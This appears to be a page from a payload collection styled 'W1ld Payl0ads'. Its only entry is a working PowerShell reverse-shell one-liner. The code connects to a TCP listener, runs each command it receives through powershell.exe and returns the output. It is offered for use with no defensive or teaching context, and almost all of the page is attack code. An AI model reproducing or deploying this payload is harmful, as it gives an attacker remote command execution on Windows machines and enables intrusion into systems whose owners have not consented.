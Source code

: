 
## W `1` l d P a y l `0` a d s

# [A] Powershell - Reverse Shell
[1] `noname`

```
$c=New-Object System.Net.Sockets.TCPClient('0.0.0.0',2222);$s=$c.GetStream();$r=New-Object System.IO.StreamReader($s);$w=New-Object System.IO.StreamWriter($s);$w.AutoFlush=$true;$sh=New-Object -ComObject 'WScript.Shell';$P=$sh.Exec('powershell.exe');$P|Out-Null;$w.WriteLine('Connected');while($true){$d=$r.ReadLine();switch($d){'exit'{$c.Close();return}default{$o=$sh.Exec("powershell.exe -Command $d");$res=$o.StdOut.ReadAll()+$o.StdErr.ReadAll();$w.WriteLine($res)}}}
```

